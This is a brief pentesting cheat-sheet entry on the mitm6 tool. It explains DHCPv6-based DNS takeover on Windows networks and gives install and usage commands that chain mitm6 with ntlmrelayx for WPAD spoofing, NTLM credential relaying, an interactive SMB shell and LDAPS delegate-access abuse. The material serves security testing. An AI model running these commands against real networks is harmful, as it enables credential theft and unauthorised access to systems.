 # mitm6

mitm6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server. It does this by replying to DHCPv6 messages, providing victims with a link-local IPv6 address and setting the attackers host as default DNS server. As DNS server, mitm6 will selectively reply to DNS queries of the attackers choosing and redirect the victims traffic to the attacker machine instead of the legitimate server. For a full explanation of the attack, see our [blog about mitm6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/). Mitm6 is designed to work together with [ntlmrelayx from impacket](https://github.com/CoreSecurity/impacket) for WPAD spoofing and credential relaying. 

Link: [https://github.com/fox-it/mitm6](https://github.com/fox-it/mitm6) 

**Install**: 

```text
git clone https://github.com/fox-it/mitm6.git && cd mitm6 
pip install .
```

 **Usage:**

```text
mitm6 -d lab.local 
ntlmrelayx.py -wh 192.168.218.129 -t smb://192.168.218.128/ -i 
# -wh: Server hosting WPAD file (Attacker’s IP) 
# -t: Target (You cannot relay credentials to the same device that you’re spoofing) 
# -i: open an interactive shell 
ntlmrelayx.py -t ldaps://lab.local -wh attacker-wpad --delegate-access 
```



